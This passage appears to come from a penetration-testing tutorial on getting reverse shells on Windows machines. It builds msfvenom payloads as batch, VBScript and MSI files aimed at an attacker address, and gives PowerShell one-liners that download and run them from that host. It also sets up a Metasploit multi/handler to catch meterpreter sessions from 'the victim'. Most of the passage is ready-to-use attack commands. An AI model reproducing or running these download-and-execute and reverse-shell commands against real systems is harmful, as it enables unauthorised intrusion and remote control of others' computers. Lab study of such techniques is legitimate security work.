 ```
Similarly, PowerShell allows the client to **execute bat file**, therefore let’s generate the malicious batch file with msfvenom as given below and start netcat listener.

```msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat```

![](images/reverse_shell_windows_27.png)

Then execute the following command on the remote side to get netcat session.

```powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))```

![](images/reverse_shell_windows_28.png)

As you can observe, we have netcat session of the victim as shown below:

![](images/reverse_shell_windows_29.png)

## Cscript

Similarly, PowerShell allows the client to execute cscript.exe to run **wsf, js** and **vbscript**, therefore let’s generate malicious bat file with msfvenom as given below and start multi/handler as the listener.

```msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs```

![](images/reverse_shell_windows_30.1.png)

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

![](images/reverse_shell_windows_30.2.png)

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

As you can observe, we have meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_30.3.png)

## Msiexec.exe

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by MSI packages for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.  

### Launch msiexec attack via msfvenom

Let’s generate an MSI Package file (1.msi) utilizing the Windows Meterpreter payload as follows and start multi/handler as the listener.

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi```

![](images/reverse_shell_windows_30.png)

```